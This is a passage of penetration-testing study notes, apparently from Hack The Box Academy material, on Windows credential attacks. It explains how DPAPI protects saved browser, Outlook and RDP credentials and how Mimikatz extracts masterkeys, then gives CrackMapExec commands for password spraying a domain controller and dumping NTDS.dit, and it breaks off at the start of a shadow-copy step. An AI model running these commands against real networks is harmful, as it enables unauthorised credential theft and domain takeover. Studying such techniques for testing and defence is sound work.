 The Data Protection Application Programming Interface or [DPAPI](https://docs.microsoft.com/en-us/dotnet/standard/security/how-to-use-data-protection) is a set of APIs in Windows operating systems used to encrypt and decrypt DPAPI data blobs on a per-user basis for Windows OS features and various third-party applications. Here are just a few examples of applications that use DPAPI and what they use it for:

| Applications | Use of DPAPI |
| --- | --- |
| Internet Explorer | Password form auto-completion data (username and password for saved sites). |
| Google Chrome | Password form auto-completion data (username and password for saved sites). |
| Outlook | Passwords for email accounts. |
| Remote Desktop Connection | Saved credentials for connections to remote machines. |
| Credential Manager | Saved credentials for accessing shared resources, joining Wireless networks, VPNs and more. |

Mimikatz and Pypykatz can extract the DPAPI `masterkey` for the logged-on user whose data is present in LSASS process memory. This masterkey can then be used to decrypt the secrets associated with each of the applications using DPAPI and result in the capturing of credentials for various accounts. DPAPI attack techniques are covered in greater detail in the [Windows Privilege Escalation](https://academy.hackthebox.com/module/details/67) module.

# ⇒ Attacking Active Directory & NTDS.dit

Once a Windows system is joined to a domain, it will **no longer default to referencing the SAM database to validate logon requests**.

## → Dictionary attacks using CrackMapExec

```bash
crackmapexec smb $DC_IP -u $username -p $passwords
```

## → Capturing NTDS.dit

### Fast way using CrackMapExec

```bash
crackmapexec smb $ip -u $username -p $password --ntds
```

### Manually using `vssadmin` or `wmic`

- check Local Group Membership

```bash
net localgroup
```

we have to be in “Administrators” or “Domain Admins” or equivalent rights group to capture NTDS.dit

- **Creating Shadow Copy of C: using vssadmin**
